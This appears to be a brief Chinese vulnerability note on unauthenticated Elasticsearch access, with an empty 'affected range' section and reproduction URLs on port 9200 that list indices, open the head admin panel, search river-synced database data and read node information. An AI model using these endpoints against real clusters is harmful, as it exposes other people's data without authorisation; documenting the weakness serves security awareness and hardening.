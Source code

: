 Elasticsearch未授权访问
=======================

一、漏洞简介
------------

> ElasticSearch
> 是一款Java编写的企业级搜索服务，启动此服务默认会开放HTTP-9200端口，可被非法操作数据。

二、影响范围
------------

三、复现过程
------------

安装了river之后可以同步多种数据库数据（包括关系型的mysql、mongodb等）。

http://0-sec.org:9200/\_cat/indices
里面的indices包含了\_river一般就是安装了river了。http://0-sec.org:9200/\_plugin/head/ web管理界面http://0-sec.org:9200/\_cat/indiceshttp://0-sec.org:9200/\_river/\_search 查看数据库敏感信息http://0-sec.org:9200/\_nodes 查看节点数据

